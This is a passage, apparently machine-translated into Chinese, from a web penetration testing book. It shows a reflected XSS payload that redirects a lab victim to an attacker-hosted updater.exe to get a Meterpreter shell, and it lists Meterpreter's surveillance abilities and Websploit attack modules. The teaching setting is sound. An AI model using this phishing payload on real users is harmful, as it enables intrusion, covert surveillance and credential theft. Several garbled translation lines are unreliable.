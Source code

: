 让我们将我们的可执行文件放在 Kali VM 上一个快速脏的 Apache web 服务器的默认文件夹中，并编写一个脚本发送给潜在目标，以提供一个反映的 XSS JavaScript，现在它指向受害者的浏览器下载可执行文件。

这就是它看起来的样子：

```
http://172.16.30.129/mutillidae/index.php?page=user-info.php&username= <script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");  AllLinks[0].href = "http://172.16.30.128/updater.exe"; }</script>
```

当我们将其放入一封快速且肮脏的电子邮件（发送到我的 Windows 7 VM 和 IE 9）中时，我们可以假设用户有超过 50%的机会看到`updater.exe`文件名，将其与我的可信 web 应用关联，并执行它。在我们的卡利终端会议上，我们看到这一进展，我们得到了一个好消息，他们已经见面，现在正在联系！MeterMeter 现在充当提示，一个快速的`dir`命令向我们显示正在运行的目录的内容（如下面的屏幕截图所示）；但是我们能从这里做什么呢？

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_15-1.png)

恭喜，我们现在可以远程访问 shell 了！

计量器是非常强大的东西；通过此访问，您现在可以在受害者不知情的情况下管理受害者的计算机。以下是一些在我们的 web app 笔测试中有用的东西：

*   转储哈希并操纵或窃取 cookie
*   秘密或公开使用系统网络摄像头和麦克风
*   进行键记录
*   上载、下载、编辑、删除、创建、移动和搜索文件和目录
*   终止或生成进程、修改注册表或关闭/重新启动/休眠计算机
*   请参阅网络和代理配置以及配置端口转发
*   查看系统和用户信息并升级权限

总而言之，这是一些可怕的东西，应该清楚地认识到，web 应用有责任确保它们不会将用户置于这种情况下。

如果我们遇到更新的浏览器或防御更严密的主机，这种简单的基于 exe 的攻击可能不会有多大进展。通过一些更先进的 Metasploit 功能、创造性的有效负载，甚至是无文件攻击的实践使用，这些防御措施可以，而且常常是规避的。

### Metasploit 专注于网络的表亲�� Websploit

Metasploit 在扫描和利用功能方面的范围是惊人的，通过插件和模块的开放扩展，它以多功能性和强大功能赢得了良好的声誉。然而，有时候，您正在寻找一个 web 应用焦点，而这正是一个类似的开源框架，名为**Websploit**（[）https://sourceforge.net/p/websploit/wiki/Home/](https://sourceforge.net/p/websploit/wiki/Home/) 开始发挥作用。与 Metasploit 一样，它提供了一种以命令行为中心的方法来调用和加载模块。它还通过插件和模块共享可扩展性，这些插件和模块帮助 Metasploit 保持了 pen 测试工具的领先地位，但它不是一个包罗万象的套件，而是专注于我们作为 web 渗透测试人员和道德黑客角色所特有的许多漏洞。

Wiki 上的模块和插件列表是其用途的一大赠品：

*   **Autopwn**：这是从 Metasploit 借来的，用于扫描和利用目标服务/服务器
*   **wmap**：可以扫描或抓取从 Metasploit`wmap`插件借用的目标
*   **格式感染器**：将反向和绑定有效负载注入到文件格式中
*   **Phpmyadmin**：搜索目标`phpmyadmin`登录页面
*   **lfi**：可以扫描并绕过本地文件包含漏洞，绕过一些 WAF
*   Apache 用户：这可以搜索服务器用户名目录（与 Apache web 服务器一起使用时）
*   **Dir Bruter**：使用单词列表对目标目录进行暴力攻击
*   **管理员查找器**：搜索目标的管理员和登录页面
*   Mulm 攻击：Ty1T:：中间人，XSS 钓鱼攻击
*   男性中间攻击
*   **Java 小程序攻击**：Java 签名小程序攻击
*   Mood 攻击向量 AUT1：末梢攻击向量中指
*   **USB 感染攻击**：创建可执行后门感染 Windows 版 USB
*   **ARP DOS**：随机 MAC 的 ARP 缓存拒绝服务攻击
*   **网络杀手攻击**：在网络上关闭您的网站（TCPKILL）
*   **虚假更新攻击**：这会为目标操作系统创建虚假更新页面
*   **假接入点攻击**：这可以创建假 AP 并嗅探受害者信息
